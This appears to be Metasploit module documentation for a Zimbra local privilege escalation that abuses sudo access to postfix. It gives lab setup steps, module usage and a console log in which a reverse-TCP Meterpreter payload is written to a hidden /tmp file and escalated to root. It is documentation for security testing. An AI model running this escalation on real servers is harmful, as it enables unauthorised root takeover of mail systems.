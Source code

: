 ## Vulnerable Application

Currently, as of 2022-10-14, all versions of Zimbra are vulnerable. Presumably
they'll patch it eventually - I reported it to Zimbra.

### Install Zimbra

My steps to install Zimbra (adapted from Christophe):

Create a VM with the following specs:

```
HDD = 128gb
Memory/etc don't matter
```

Install a local DNS server (note: replace `<ip>` with the host's actual ip)
(other note: replace `apt` with `yum` to do this on a Red Hat-derived system):

```
sudo apt update && sudo apt install dnsmasq
sudo hostnamectl set-hostname mail.example.org
echo "<ip> mail.example.org" | sudo tee -a /etc/hosts
echo -e 'listen-address=127.0.0.1\nserver=8.8.8.8\ndomain=example.org\nmx-host=example.org, mail.example.org, 5\nmx-host=mail.example.org, mail.example.org, 5' | sudo tee /etc/dnsmasq.conf
```

Configure the host to use it:

```
sudo systemctl disable systemd-resolved
sudo systemctl stop systemd-resolved
sudo killall dnsmasq # Seems to be required for Red Hat OSes
sudo systemctl restart dnsmasq
echo "nameserver 127.0.0.1" | sudo tee /etc/resolv.conf
```

Download Zimbra from
https://www.zimbra.com/downloads/zimbra-collaboration-open-source/ - you'll
have to sell your soul and opt-in to spam, but they don't validate your email.

```
tar -xvvzf zcs-*.tgz
cd zcs*
sudo ./install.sh

* Lots of <enter>
* DO NOT install `dnscache` module (respond `N` when it ask), I had conflict issues with the local `dnsmasq`
* Yes change the system
* Setup the admin password, probably turn off auto-updates
```

## Verification Steps

Get a Meterpreter session on the Zimbra server as the `zimbra` user - I used
`exploit/linux/http/zimbra_cpio_cve_2022_41352` but just running a Meterpreter
binary is also fine. To become vulnerable to cve-2022-41352, just `rm $(which pax)`
then reboot.

From there,

You can obviously get a shell however you like. :)

Then:

1. Do: `use exploit/linux/local/zimbra_postfix_priv_esc`
1. Do: `set SESSION 1`
1. Do: `set RHOSTS <target>`
1. Do: `set LHOST <listenerip>`
1. Do: `exploit`

## Options

### SUDO_PATH

The path to `sudo` on the host. If we have a proper environment with `$PATH`
set, which we generally do, simply `sudo` is fine.

### ZIMBRA_BASE

The base where Zimbra is installed. Zimbra typically installs to `/opt/zimbra`,
and I'm not even sure if it _can_ install elsewhere, so this default should be
fine.

### WritableDir

A directory where we can write the payload - by default, `/tmp`.

### PayloadFilename

A specific filename to use as the payload, within `WritableDir`. By default,
it's randomized (with a `.` in front)

## Scenarios

### Escalating a `zimbra` session to `root`, after exploiting cve-2022-41352

```
msf exploit(linux/http/zimbra_cpio_cve_2022_41352) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                Connection
  --  ----  ----                   -----------                ----------
  1         meterpreter x64/linux  zimbra @ mail.example.org  172.16.166.147:4444 -> 172.16.166.157:47210 (172.16.166.157)

msf exploit(linux/http/zimbra_cpio_cve_2022_41352) > use exploit/linux/local/zimbra_postfix_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/zimbra_postfix_priv_esc) > set SESSION 1
SESSION => 1
msf exploit(linux/local/zimbra_postfix_priv_esc) > exploit

[*] Started reverse TCP handler on 172.16.166.147:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending stage (3045348 bytes) to 172.16.166.157
[*] Executing: sudo -n -l
[+] The target appears to be vulnerable.
[*] Creating exploit directory: /tmp/.GPjXSraCDY
[*] Writing '/tmp/.GPjXSraCDY/.qjSY8' (250 bytes) ...
[*] Attempting to trigger payload: sudo /opt/zimbra/common/sbin/postfix -D -v /tmp/.GPjXSraCDY/.qjSY8
[*] Sending stage (3045348 bytes) to 172.16.166.157
[+] Deleted /tmp/.GPjXSraCDY
[*] Meterpreter session 5 opened (172.16.166.147:4444 -> 172.16.166.157:36488) at 2022-10-14 13:19:25 -0700

meterpreter > getuid
Server username: root
```

